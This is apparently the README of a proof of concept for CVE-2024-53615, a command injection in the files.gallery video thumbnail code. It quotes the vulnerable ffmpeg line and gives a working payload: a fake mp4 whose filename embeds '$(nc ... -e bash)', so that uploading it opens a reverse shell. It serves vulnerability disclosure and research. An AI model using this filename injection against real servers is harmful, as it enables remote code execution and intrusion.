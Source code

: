 # CVE-2024-53615

A command injection vulnerability in the video thumbnail rendering component of Karl Ward's [`files.gallery`](https://github.com/mjau-mjau/files.photo.gallery) `v0.3.0` through `0.11.0` allows remote attackers to execute arbitrary code via a crafted video file.
 Prerequisites:

- `ffmpeg` in `PATH`
- `config.php`: `'allow_upload' => true`
- `exec` must be enabled in PHP config

The vulnerability is in the following line (fetched from version `0.9.12`), which generates video previews:

```php
$cmd = $ffmpeg_path . ' -ss 3 -t 1 -hide_banner -i "' . str_replace('"', '\"', $this->path) . '" -frames:v 1 -an -vf "thumbnail,scale=480:320:force_original_aspect_ratio=increase,crop=480:320" -r 1 -y -f mjpeg "' . $cache . '" 2>&1';
```

As `$this->path` is user controllable, we can construct a malicious file whose title is a bash command substitution. It is important that this file must contain e.g., the mp4 magic bytes and the filename must end with `.mp4`:

```sh
$ echo "AAAAIGZ0eXBpc29tAAACAGlzb21pc28yYXZjMW1wNDEAAQv7bW9vdgAAAGxtdmhk" | base64 -d > '$(nc 127.0.0.1 8443 -e bash).mp4'
```

If we upload this file, and refresh the page to make the application load the file, we obtain a shell on our local machine.

Note: the command is stored in the filename, so reverse shell possibilities are limited due to name length constraints.

## Disclaimer

This repository is intended solely for educational and research purposes.

Misuse Warning:
Using this tool for unauthorized or malicious activities is strictly prohibited and may violate local, state, or international laws. The author is not responsible for any misuse of this code.

Always obtain proper authorization before deploying this tool in any environment. By using this project, you agree to use it responsibly and ethically.

